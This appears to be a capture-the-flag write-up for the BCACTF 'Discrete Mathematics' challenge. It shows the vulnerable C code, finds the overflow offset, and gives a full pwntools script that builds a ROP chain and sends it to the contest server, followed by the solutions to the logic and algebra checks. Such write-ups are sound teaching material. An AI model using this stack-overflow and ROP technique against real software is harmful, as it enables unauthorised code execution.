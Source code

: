 ```yaml
---
description: 'Buffer overflow, with a ROP chain.'
---
```


# Discrete Mathematics

The same challenge, but this time we need ot build a ROP chain.

```c
void quiz() {
    FILE *fp = fopen("flag.txt", "r");
    char flag[100];

    if (fp == NULL) {
        puts("Sorry, all my stuff's a mess.");
        puts("I'll get around to grading your quiz sometime.");
        puts("[If you are seeing this on the remote server, please contact admin].");
        exit(1);
    }

    fgets(flag, sizeof(flag), fp);

    if (knows_logic && knows_algebra && knows_functions) {
        puts("Alright, you passed this quiz.");
        puts("Here's your prize:");
        puts(flag);
    } else {
        puts("Not there yet...");
        puts("Study some more!");
    }
}
```

We can't just jump to `quiz()` directly, since we need to make `knows_logic`, `knows_algebra`, and `knows_functions` True. Each of these variables are only set within their corresponding functions: `logic()`, `algebra()` and `functions()`.

If we build a ROP chain as follows, we can control the return addresses of subsequent returns.

![](../../.gitbook/assets/ca9b93eea7374b5dbe7aabe552e9d891.png)

Again, we will have to bypass the `strcmp()` check:

```c
if (strcmp(response, "i will get an A")) {
    puts("I'm sorry, but you obviously don't care about grades.");
    puts("Therefore, you aren't motivated enough to be in our class.");
    puts("Goodbye.");
    exit(1);
}
```

Prepare our cyclic pattern payload:

`python -c "print 'i will get an A' + '\x00' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A'" > ipt.txt`

![](../../.gitbook/assets/db81350822c74ff7af93f3095c2313bc.png)

We find that the offset is 56.

![](../../.gitbook/assets/57f92a2eb43743b39b456f6ab1e3f39b.png)

We find the function addresses:

* logic: 0x00401236
* algebra: 0x00401336
* functions: 0x0040144d
* quiz: 0x00401544

![](../../.gitbook/assets/68f6304d67a84ca09bb53d86377064c0.png)

```python
from pwn import *

logic = 0x00401236
algebra = 0x00401336
functions = 0x0040144d
quiz = 0x00401544

logic = p64(logic)
algebra = p64(algebra)
functions = p64(functions)
quiz = p64(quiz)

offset = 56
payload = b"i will get an A"
payload += b"\x00"

# Build the ROP chain
payload += b"A" * offset
payload += quiz
payload += logic
payload += quiz
payload += algebra
payload += quiz
payload += functions
payload += quiz
print(payload)

with open('payload', 'wb') as f:
    f.write(payload)

conn = remote('bin.bcactf.com', 49160)

print(conn.recv())
print(conn.recv())

print("\nSending payload...")
conn.send(payload + b"\n")

print(conn.recv())

conn.interactive()
conn.close()
```

Now, we get an interactive connection where we will first jump to `logic()`, then `algebra()`, then `functions()`.

![](../../.gitbook/assets/9975f2cc912f4de5b22786b9a210de21.png)

We just have to figure out the appropriate values to pass the checks.



```c
void logic() {
    int p, q, r, s;

    printf("p: ");
    scanf("%d", &p);
    printf("q: ");
    scanf("%d", &q);
    printf("r: ");
    scanf("%d", &r);
    printf("s: ");
    scanf("%d", &s);

    knows_logic = (p || q || !r) && (!p || r || !s) && (q != s) && s;
}
```

So, from `(q != s) && s`, we know `s` must be 1, `q` must be 0.

Then, from `(p || q || !r) && (!p || r || !s)`, we have `(p || 0 || !r) && (!p || r || 0)`, which is `(p || !r) && (!p || r)`. Either `p = r = 0` or `p = r = 1` works.

```c
void algebra() {
    int x, y, z;

    printf("x: ");
    scanf("%d", &x);
    printf("y: ");
    scanf("%d", &y);
    printf("z: ");
    scanf("%d", &z);

    int eq1 = 5*x - 6*y + 3*z;
    int eq2 = 2*x + 5*y - 7*z;
    int eq3 = 4*x + 8*y + 8*z;

    knows_algebra = (eq1 == 153) && (eq2 == -163) && (eq3 == -28);
}
```

We can solve the simultaneous equations to get:

* x = 3
* y = -17
* z = 12

```c
void functions() {
    int a, b, c;

    printf("a: ");
    scanf("%d", &a);
    printf("b: ");
    scanf("%d", &b);
    printf("c: ");
    scanf("%d", &c);

    int vertex_x = -b / (2*a);
    int vertex_y = a * vertex_x * vertex_x + b * vertex_x + c;
    int discriminant = b * b - 4 * a * c;

    knows_functions = (vertex_x == 2) && (vertex_y == -2) && (discriminant == 16);
}
```

The values seemed pretty small, so a bruteforce script easily gets the values.

```python
for a in range(-10, 10):
    if a == 0:
        continue
    for b in range(-10, 10):
        for c in range(-10, 10):
            vertex_x = -b / (2*a)
            vertex_y = a * vertex_x * vertex_x + b * vertex_x + c
            discriminant = b * b - 4 * a * c

            if (vertex_x == 2) and (vertex_y == -2) and (discriminant == 16):
                print(a, b, c)
                break
```

We have:

* a = 2
* b = -8
* c = 6

Plugging these values in, we get the flag.

![](../../.gitbook/assets/3ee6e1aae3ab4dfa9930aaf3ea3820c7.png)


